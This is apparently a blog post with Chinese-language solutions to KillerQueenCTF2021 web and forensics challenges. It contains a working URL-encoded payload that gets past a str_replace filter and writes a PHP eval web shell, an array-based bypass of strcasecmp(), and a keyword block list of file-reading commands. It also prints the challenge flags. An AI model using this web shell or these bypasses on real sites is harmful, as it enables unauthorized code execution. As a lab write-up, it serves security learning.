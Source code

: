 ```yaml
---
title: "KillerQueenCTF2021 Wp"
slug: "killerqueenctf2021-wp"
description: "water, water, water..."
date: 2021-10-30T16:39:15+08:00
categories: ["CTF"]
series: []
tags: ["wp"]
draft: false
toc: true
---
```


## web/Just Not My Type

> I really don't think we're compatible ([Link](http://143.198.184.186:7000/))

```php
<?php
$FLAG = "shhhh you don't get to see this locally";

if ($_SERVER['REQUEST_METHOD'] === 'POST')
{
    $password = $_POST["password"];
    if (strcasecmp($password, $FLAG) == 0)
    {
        echo $FLAG;
    }
    else
    {
        echo "That's the wrong password!";
    }
}
?>
```

我们的老朋友`strcasecmp()`函数，它和`strcmp()`函数一样用于比较两个字符串，区别是后者会区分大小写；绕过方式是传入数组，这样会使两个函数无法处理而返回null

![image-20211030104447923](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211030104447923.png)

`flag{no_way!_i_took_the_flag_out_of_the_source_before_giving_it_to_you_how_is_this_possible}`

## web/PHat Pottomed Girls

> Now it's attempt number 3 and this time with a Queen reference! (flag is in the root directory) ([Link](http://143.198.184.186:7001/))

```php
<?php
session_start();

function generateRandomString($length = 15) {
    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    $charactersLength = strlen($characters);
    $randomString = '';
    for ($i = 0; $i < $length; $i++) {
        $randomString .= $characters[rand(0, $charactersLength - 1)];
    }
    return $randomString;
}
function filter($originalstring)
{
    $notetoadd = str_replace("<?php", "", $originalstring);
    $notetoadd = str_replace("?>", "", $notetoadd);
    $notetoadd = str_replace("<?", "", $notetoadd);
    $notetoadd = str_replace("flag", "", $notetoadd);

    $notetoadd = str_replace("fopen", "", $notetoadd);
    $notetoadd = str_replace("fread", "", $notetoadd);
    $notetoadd = str_replace("file_get_contents", "", $notetoadd);
    $notetoadd = str_replace("fgets", "", $notetoadd);
    $notetoadd = str_replace("cat", "", $notetoadd);
    $notetoadd = str_replace("strings", "", $notetoadd);
    $notetoadd = str_replace("less", "", $notetoadd);
    $notetoadd = str_replace("more", "", $notetoadd);
    $notetoadd = str_replace("head", "", $notetoadd);
    $notetoadd = str_replace("tail", "", $notetoadd);
    $notetoadd = str_replace("dd", "", $notetoadd);
    $notetoadd = str_replace("cut", "", $notetoadd);
    $notetoadd = str_replace("grep", "", $notetoadd);
    $notetoadd = str_replace("tac", "", $notetoadd);
    $notetoadd = str_replace("awk", "", $notetoadd);
    $notetoadd = str_replace("sed", "", $notetoadd);
    $notetoadd = str_replace("read", "", $notetoadd);
    $notetoadd = str_replace("system", "", $notetoadd);

    return $notetoadd;
}

if(isset($_POST["notewrite"]))
{
    $newnote = $_POST["notewrite"];

    //3rd times the charm and I've learned my lesson. Now I'll make sure to filter more than once :)
    $notetoadd = filter($newnote);
    $notetoadd = filter($notetoadd);
    $notetoadd = filter($notetoadd);

    $filename = generateRandomString();
    array_push($_SESSION["notes"], "$filename.php");
    file_put_contents("$filename.php", $notetoadd);
    header("location:index.php");
}
?>
```

简单看一下流程，`filter()`函数会对我们post传入的notewrite参数（也就是会被写入的文件内容）进行比较严格的过滤，文件名是`generateRandomString()`生成的随机名字，但是不重要，它会自动拼上.php的后缀并且把名字写到`session['notes']`中；所以我们唯一需要处理的就是`filter()`函数的绕过了

尴尬的是这个`filter()`跟个筛子一样……首先是没有过滤`eval()`，其次是`str_replace()`也是水的一批

payload:

```
notewrite=%3C%3C%3C%3C%3F%3F%3F%3Fphp+%40eval%28%24_POST%5B%27wuhu%27%5D%29%3B
```

之后连上蚁剑即可查看根目录下的flag.php

`flag{wait_but_i_fixed_it_after_my_last_two_blunders_i_even_filtered_three_times_:(((}`

## forensics/Obligatory Shark

> remember to wrap the flag

看tcp流，telnet明文流量

![image-20211030120130169](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211030120130169.png)

33a465747cb15e84a26564f57cda0988

![image-20211107144316344](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211107144316344.png)

`flag{dancingqueen}`
